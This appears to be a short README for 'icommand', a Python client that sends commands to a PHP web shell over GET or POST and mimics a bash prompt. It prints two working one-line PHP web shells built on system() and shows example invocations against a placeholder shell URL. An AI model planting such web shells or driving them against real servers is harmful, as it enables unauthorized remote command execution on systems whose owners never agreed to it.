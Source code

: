 icommand - command controller for PHP system function
---
### Info: ###
icommand is a command controller for PHP _program execution functions_ like system, passthru, exec and etc ...  
The script tries to simulate Linux bash as it works from CLI  
It sends requests to the server through urllib/urllib2 [Python][] modules  

* icommand works for **POST** and **GET** requests:  
	- `<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
* --url is a positional argument withing GET and POST requests:  
    - python icommand.py --url http://testserver.com/shell.php?cmd=  
  	- python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd

[Python]: http://www.python.org/download/
* __p.s.__ [Python][] v2.6 or v2.7 is required for running this script.